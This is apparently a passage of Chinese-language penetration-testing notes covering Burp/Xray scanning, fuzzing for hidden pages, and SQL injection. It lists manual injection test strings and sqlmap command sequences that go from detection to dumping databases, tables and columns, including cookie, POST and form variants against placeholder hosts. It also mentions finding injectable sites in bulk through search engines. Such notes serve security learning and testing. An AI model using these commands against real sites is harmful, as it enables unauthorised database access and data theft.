 **1.4Xray自动化的漏洞挖掘**

burp+xray：
BurpSuite + Xray 被动扫描配置 - Ritte - 博客园
或者直接挂浏览器，点到哪里，扫到哪里
xray+各种漏扫联动

**1.5Fuzz**

Fuzz可以发现应用程序中没有被引用但是确实是可以访问的页面。
Discover Content是Burp中专门用于此目的的工具。
Burp Intruder也可以通过字典攻击来实施强制浏览(通常是在url参数和文件路径部分进行修改)，爆破、注入等。
FuzzDB包含一些用于此目的的非常牛逼的字典。

### 2.挖掘漏洞

**2.1SQL注入：**

初步测试：见框就上，加' " ) ))% and 1=1 and 1=2　and2-1 or ，
抓包爆破常用SQL注入payload字典，上burp intruder
**纯手工注入和手工绕过waf，详见笔记。**
通过搜索引擎，批量查找注入点，详见笔记。
然后用傀儡注入点批量搜集工具

实操案例：
sql注入思路（登录界面）和网络常用端口_u011975363的专栏-CSDN博客
超级SQL注入工具（github）

sqlmap一把梭：
注意：命令为kali linux中运行的 （windows中用python sqlmap.py执行）

注入六连：
1.sqlmap -u "http://www.xx.com?id=x" 查询是否存在注入点
2.--dbs 检测站点包含哪些数据库
3.--current-db 获取当前的数据库名
4.--tables -D "db_name" 获取指定数据库中的表名 -D后接指定的数据库名称
5.--columns -T "table_name" -D "db_name" 获取数据库表中的字段
6.--dump -C "columns_name" -T "table_name" -D "db_name"
获取字段的数据内容

COOKIE注入：
sqlmap -u "http://www.xx.com/xxx.asp" --cookie "id=XXX cookie" --level 2 ＼
cookie注入 后接cookie值

POST注入：
（1）目标地址http:// http://www.xxx.com /login.asp
（2）打开burp代理
（3）点击表单提交
（4）burp获取拦截信息（post）
（5）右键保存文件（.txt）到指定目录下
（6）运行sqlmap并执行如下命令：
用例：sqlmap -r okay.txt -p username
// -r表示加载文件(及步骤（5）保存的路径)
-p指定参数（即拦截的post请求中表单提交的用户名或密码等name参数）
（7）自动获取表单：--forms自动获取表单
例如：sqlmap -u http://www.xx.com/login.asp --forms
（8）指定参数搜索：--data
例如:sqlmap -u http://www.xx.com/login.asp --data "username=1"
